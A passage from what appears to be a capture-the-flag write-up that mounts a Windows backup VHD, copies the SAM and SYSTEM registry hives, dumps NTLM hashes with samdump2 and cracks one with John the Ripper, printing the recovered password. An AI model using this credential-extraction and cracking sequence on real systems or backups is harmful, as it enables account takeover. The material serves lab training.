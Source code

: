 Then, create a device file nbd0 from the vhd file.<br>
Before that, we have to load nbd kernel module to run subsequent command.
{% highlight shell %}
root@kali:~# modprobe nbd

root@kali:~# qemu-nbd -r -c /dev/nbd0 '/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd'
{% endhighlight %}

Next, create a mount point and mount the created device file.<br>
We can figure out that the mounted disk is a Windows hard drive.
{% highlight shell %}
root@kali:~# mkdir /mnt/VHD

root@kali:~# mount /dev/nbd0p1 /mnt/VHD
Error opening '/dev/nbd0p1' read-write
Could not mount read-write, trying read-only

root@kali:~# ls -l /mnt/VHD/
total 2096729
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /mnt/VHD/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
{% endhighlight %}

We can obtain the SYSTEM and SAM file since no process is using these files.
{% highlight shell %}
root@kali:~# cp /mnt/VHD/Windows/System32/config/SYSTEM .

root@kali:~# cp /mnt/VHD/Windows/System32/config/SAM .
{% endhighlight %}

Then, extract NTLM hash with samdump2.
{% highlight shell %}
root@kali:~# samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
{% endhighlight %}

Crack the hash with john the ripper.
{% highlight shell %}
root@kali:~# samdump2 SYSTEM SAM > hash.txt

root@kali:~# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-09-08 00:53) 3.571g/s 16777Kp/s 16777Kc/s 16786KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}
